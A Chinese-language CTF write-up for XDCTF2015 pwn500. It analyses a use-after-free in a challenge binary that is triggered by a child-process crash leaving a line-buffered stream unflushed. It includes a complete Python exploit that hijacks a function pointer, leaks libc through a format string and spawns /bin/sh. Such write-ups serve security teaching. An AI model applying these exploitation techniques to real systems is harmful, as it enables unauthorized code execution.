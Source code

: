 ```yaml
---
title: XDCTF2015 pwn500
date: 2016-11-12
tags: CTF
layout: post
---
```


## 0x00 Struct

程序是一个教务处管理系统, 64位ELF文件. 可以注册, 考试, 补考, 计算成绩, 查看注册信息...还隐藏了一个作弊函数, 可以用来修改已输入的内容.

程序使用了两个结构体负责维护各种信息, 结构体如下:

``` c
typedef struct exam{
    //struct size = 0x20
    //malloc size = 0x68
    short int subject;  //size = 4
    short int real_len; // size = 4
    int input_len;
    char *data_ptr;
    int (*get_score)(struct exam *subject, int flag);
} Exam;

typedef struct {
    //struct size = 0xF8
    //malloc size = 0xF8
    char name[0x11];
    char message[0xCF];
    Exam *math;
    Exam *english;
    Exam *dota;
} User;
```

User结构体很明显, 没什么可说的. Exam结构体的最后一项是一个函数指针. 在计算score和resit时会进行调用.

## 0x01 UAF

整个程序显得很大, 但是并没有什么太特殊的东西, 而已又是C写的, 体力活而已.

在进行考试时, 首先制造了一个文件流, 之后fork一个子进程专门用来读取data信息到流中, 读取后进行退出. 父进程等待子进程结束后从流中读出数据, 写入Exam中data\_ptr指向的内存中. 这个内存块根据用户输入的len来malloc, 所以没有溢出...

第二个关键的函数是补考(resit)函数. 函数会检查Exam块的real\_len和data\_ptr, 有任一项为NULL则直接退出. 否则若成绩小于60, free掉data块, 置空real\_len和data\_ptr.

UFA的第一步就发生在resit函数中. 在free掉data块后, 如果real\_len为零, 程序并不会置空data\_ptr, 也就是留下了hang pointer.

data块最大大小为104, 正好等于Exam块的大小...本来Exam块只需要0x20就可以了, 很明显这是故意的...

补考函数只会检查data\_ptr是否为NULL. 这样只需要先考试, resit之后再考试另一科目. 此时第一次考试留下的野指针正好指向第二次考试的Exam块.

而Exam块中保存着一个函数指针, 通过隐藏的作弊函数就能覆盖掉. 这样通过UFA就造成了任意执行.

```
take_exam_Math -> essay_len(data_len) = 104 ->
    resit -> take_exam_English -> cheat -> show_score
```

然而在正常情况下程序的input\_len和real\_len是相等的, input\_len不能为0...

## 0x02 Child procsee crash

UFA利用的关键在于如何使real\_len为0.

在正常情况下, 负责读取输入的子进程会不断循环调用read函数直到读取的字节和input\_len相等. 所以输入EOF并没有什么用.

但是读取函数本身是有问题的, 在循环读取时read的数据并不是直接写入文件流, 而是存在了栈上. 但是栈大小不够, 会造成8字节的溢出.

而程序的read函数是包装过的, 在读取结束后会在末尾添加`\x00`, 这样ret地址的低字节正好被覆盖, 导致ret后反而跳到前面的指令中(并没有直接崩溃)...但是随后因为访问栈上地址造成了非法地址访问, crash.

虽然函数在ret之前就已经调用了fputs()函数将读取到的数据写入了文件流中, 但是仔细分析就会发现一些问题.

在最初初始化的时候, 程序调用了setvbuf()将文件流的模式调整为了`_IOLBF`状态.([关于setvbuf的Link][1]). 该模式在写入数据时不会立即进行, 而是保存在缓冲区中, 直到缓冲区满或有新的一行字串写入时才刷新缓冲. exit()和程序的正常退出都会进行缓冲的刷新.

但是程序的crash并不会刷新缓冲...由于读取函数只写入了一行, 所以虽然调用了fputs(), 但是本应在正常退出时进行的缓冲刷新因为crash中断了, crash后文件流是空的, 达成了real\_len为零的条件.

## 0x03 Exp

完整的exp如下, 题目提供了libc, 所以只需要leak一次libc地址即可.

有趣的是leak的方式. 被覆盖的func函数原型如下:

``` c
int func(Exam *subject, int flag)
```

被传入的Exam是我们可控的, 但是并不能构造出puts(addr)或printf("%s", addr).

但是我们可以构造出格式化字符串. 这样就可以泄露`__libc_main`的地址了.

完整的exp如下:

``` python
#!/usr/bin/env python

from zio import *
from pwn import ELF

target = "./jwc"

io = zio(target, print_read = COLORED(REPR, 'red'), print_write = COLORED(REPR, 'blue'), timeout = 100000)

menud = "6.exit\n"

def register():
    io.read_until(menud)
    io.writeline("1")
    io.read_until("chars\n")
    io.writeline("huaji")
    io.read_until("yourself\n")
    io.writeline("999999999")
    io.read_until("registered!\n")
    print("register success.")

def doexam(exam, length, content):
    io.read_until(menud)
    io.writeline("2")
    io.read_until("3.dota\n")
    io.writeline(str(exam))
    io.read_until("essay?\n")
    io.writeline(str(length))
    io.read_until("OK\n")
    io.writeline(content)
    io.read_until("exam~\n")
    print("exam done.")

def cheat(exam, content):
    io.read_until(menud)
    io.writeline("1024")
    io.read_until(":)\n")
    io.writeline(str(exam))
    io.writeline(content)
    print("cheat done.")

# get hang pointer
register()
doexam(1, 104, "9"*104)

io.read_until(menud)
io.writeline("5")
io.read_until("3.dota\n")
io.writeline("1")
io.read_until("again\n")

doexam(2, 64, "9"*64)

# leak main return addr
format_str = "%11$lu\x00"
printf_plt = 0x4009B0
payload = format_str + "9"*(0x18 - len(format_str)) + l64(printf_plt)
cheat(1, payload)

io.read_until(menud)
io.writeline("3")
io.read_until("\n")
leakinfo = io.read_until("english")
leakinfo = int(leakinfo[:-7])
print("get leak info %s" % hex(leakinfo))

#calculatr system address
libc = ELF("./libc.so")

system_addr = leakinfo - 241
system_addr = system_addr + (libc.symbols['system'] - libc.symbols['__libc_start_main'])

#get shell
shellcode = "/bin/sh\x00"
payload = shellcode + "9"*(0x18 - len(shellcode)) + l64(system_addr)
cheat(1, payload)

io.read_until(menud)
io.writeline("3")

io.interact()
```

## 0x04  End

其实UFA并不是很难, 主要的坑点在于子进程crash导致的写入失败. 或者说这个比赛题目的真正核心就在于缓冲区的非及时写入.

[1]: https://www.tutorialspoint.com/c_standard_library/c_function_setvbuf.htm

